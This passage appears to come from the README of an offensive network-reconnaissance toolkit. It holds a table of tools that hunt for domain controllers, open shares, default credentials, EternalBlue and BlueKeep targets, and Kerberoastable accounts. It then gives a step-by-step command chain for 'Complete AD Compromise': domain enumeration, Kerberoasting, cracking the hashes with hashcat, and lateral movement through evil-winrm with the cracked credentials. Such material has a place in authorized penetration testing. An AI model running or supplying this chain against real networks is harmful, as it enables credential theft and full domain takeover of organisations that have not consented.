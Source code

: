 | Tool | Purpose | Key Features | Critical Findings | Output Files |
|------|---------|--------------|-------------------|--------------|
| **DCSeek** | Domain Controllers | Port scan, enum4linux, LDAP | Domain structure | dclist.txt |
| **PrintSeek** | Printers | SNMP, IPP, JetDirect | Print jobs, configs | printerlist.txt |
| **PanelSeek** | Admin Panels | 40+ panel signatures, HTTP | Default creds | panellist.txt |
| **SMBSeek** | SMB Shares | Null sessions, guest access | Accessible shares | smblist.txt, sharelist.txt |
| **VulnSeek** | Vulnerabilities | EternalBlue, BlueKeep, Metasploit | Critical CVEs | vulnlist.txt |
| **ShareSeek** | File Shares | NFS, FTP, WebDAV, TFTP, rsync | Anonymous access | sharelist.txt |
| **DbSeek** | Databases | 8 DB types, default creds | No-auth DBs | dblist.txt, db_creds.txt |
| **CredSeek** | Credentials | GPP, SSH keys, configs, files | Domain creds | found_creds.txt |
| **LDAPSeek** | AD Enumeration | SPNs, ASREPRoast, delegation | Kerberoasting targets | users.txt, spns.txt |
| **KerbSeek** | Kerberos Attacks | Kerberoasting, ASREPRoasting | TGS/AS-REP hashes | tgs_hashes.txt |
| **WinRMSeek** | WinRM | Ports 5985/5986, auth testing | Remote access | winrmlist.txt |
| **WebSeek** | Web Vulns | .git, backups, phpinfo, SQLi | Source code leaks | git_repos.txt |
| **SNMPSeek** | SNMP | Community bruteforce, MIB walk | Writable SNMP | snmp_creds.txt |
| **BackupSeek** | Backup Systems | Veeam, Acronis, Bacula, TSM | Backup servers | backuplist.txt |

---

# 🔥 **Attack Chains**

## **Chain 1: Complete AD Compromise**
```bash
# 1. Find DCs
./dcseek.py iplist.txt

# 2. Enumerate AD
./ldapseek.py dclist.txt --full

# 3. Get Kerberoastable accounts
./ldapseek.py dclist.txt --spns

# 4. Kerberoast them
./kerbseek.py --kerberoast --spns spns.txt -d domain.com --dc 10.0.0.1

# 5. Crack hashes
hashcat -m 13100 tgs_hashes.txt rockyou.txt

# 6. Lateral movement via WinRM
./winrmseek.py iplist.txt -t -u svc_account -p cracked_password
evil-winrm -i dc01 -u svc_account -p cracked_password
```
